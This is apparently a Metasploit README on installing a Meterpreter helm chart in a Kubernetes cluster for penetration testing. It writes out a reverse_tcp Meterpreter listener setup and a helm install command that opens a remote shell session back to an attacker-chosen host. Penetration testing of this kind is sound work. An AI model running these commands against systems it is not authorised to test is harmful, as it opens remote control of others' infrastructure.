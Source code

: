# Metasploit in Kubernetes

The most common workflow to test a Kubernetes environment with Metasploit is to target the Kubernetes API externally,
or through a compromised container - both of these workflows are currently supported directly within msfconsole.

An alternative to compromising a Kubernetes container to gain a Meterpreter session is to install the `meterpreter` helm chart into
a Kubernetes environment directly. This newly opened Meterpreter session will act as the pivot point for running additional
Metasploit modules, similar to the behavior of compromising an existing Kubernetes container with msfconsole.

## Installation

To install the Metasploit resources in to your Kubernetes environment: 

1. Make sure [Helm](https://helm.sh/) (version 3 or above) is [installed](https://helm.sh/docs/intro/install/)
2. Make sure you have an available Kubernetes cluster to deploy Metasploit. You can install a local Kubernetes cluster using [kind](https://kind.sigs.k8s.io/docs/user/quick-start/#installation)
   You can create local kind cluster by running  `make create-kind-cluster`
2. A penester should create a Metasploit listener from msfconsole:
```
use payload/linux/x64/meterpreter/reverse_tcp
set LHOST x.x.x.x
set LPORT 4444
to_handler
```

3. Install meterpreter helm chart by running:

```sh
export LHOST="x.x.x.x"
export LPORT="4444"
helm upgrade --create-namespace -i -n metasploit meterpreter ./meterpreter --set lhost=$LHOST --set lport=$LPORT
```
4. If the listener from step 3 was created, ensure you now have a Meterpreter session in msfconsole

## Privileges

The Meterpreter container can be deployed with different privileges and permissions - see the `privileges` section within
https://github.com/rapid7/metasploit-framework/blob/master/kubernetes/meterpreter/values.yaml for more details.

